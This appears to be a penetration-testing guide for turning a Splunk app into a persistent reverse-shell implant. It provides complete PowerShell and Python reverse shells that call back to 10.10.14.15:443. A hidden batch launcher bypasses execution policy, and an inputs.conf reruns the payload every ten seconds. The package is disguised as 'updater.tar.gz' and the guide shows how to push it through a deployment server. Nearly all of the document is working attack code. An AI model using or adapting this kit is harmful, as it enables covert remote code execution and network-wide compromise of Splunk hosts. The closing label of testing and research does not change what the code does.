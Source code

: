 ## 1. Create Splunk App Directory Structure

Create the necessary directory structure for the Splunk application:

```bash
mkdir -p splunk_shell/splunk_shell/bin
mkdir -p splunk_shell/splunk_shell/default
tree splunk_shell/splunk_shell/
```

## 2. Create PowerShell Reverse Shell (Windows)

Create a PowerShell script to establish a reverse shell connection:

**File: `splunk_shell/splunk_shell/bin/rev.ps1`**

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.15',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
};
$client.Close()
```

## 3. Create a Batch File to Execute PowerShell (Windows)

**File: `splunk_shell/splunk_shell/bin/run.bat`**

```batch
@ECHO OFF
PowerShell.exe -exec bypass -w hidden -Command "& '%~dpn0.ps1'"
Exit
```

## 4. Create Splunk App Configuration (Windows)

Configure Splunk to execute the batch file at regular intervals.

**File: `splunk_shell/splunk_shell/default/inputs.conf`**

```ini
[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```

## 5. Package the Splunk App

Create a compressed tar archive for easy deployment:

```bash
tar -cvzf updater.tar.gz splunk_shell/splunk_shell/
```

## 6. Set Up a Netcat Listener

Start a listener on port 443 to capture the reverse shell:

```bash
sudo nc -lnvp 443
```

## 7. Upload the Splunk App

1. Navigate to "Apps" -> "Manage Apps" -> "Install app from file" in Splunk Web UI.
    
2. Upload `updater.tar.gz`.
    

## 8. Create Python Reverse Shell (Linux)

For Linux systems, create a Python-based reverse shell script.

**File: `splunk_shell/splunk_shell/bin/rev.py`**

```python
import sys, socket, os, pty

ip = "10.10.14.15"
port = 443
s = socket.socket()
s.connect((ip, int(port)))
[os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]
pty.spawn('/bin/bash')
```

## 9. Create Splunk App Configuration (Linux)

**File: `splunk_shell/splunk_shell/default/inputs.conf`**

```ini
[script://./bin/rev.py]
disabled = 0
interval = 10
sourcetype = shell
```

## 10. Deploy the App to Splunk Deployment Server

### Windows Deployment Server:

Copy `updater.tar.gz` to the deployment apps directory:

```bash
cp updater.tar.gz $SPLUNK_HOME/etc/deployment-apps/
```

Restart Splunk:

```bash
splunk restart
```

### Linux Deployment Server:

Copy `updater.tar.gz` to the deployment apps directory:

```bash
cp updater.tar.gz $SPLUNK_HOME/etc/deployment-apps/
```

Restart Splunk:

```bash
sudo systemctl restart splunk
```

## 11. Validate Shell Access

After gaining shell access, check the following:

```bash
whoami
hostname
pwd
```

## Key Considerations

- Ensure Netcat listener is active before running the scripts.
    
- Modify the IP address and port in scripts based on your setup.
    
- Use caution when testing on production systems.
    
- Disable PowerShell execution policies if needed.
    

This guide provides a structured method for setting up a Splunk-based reverse shell for penetration testing and security research purposes.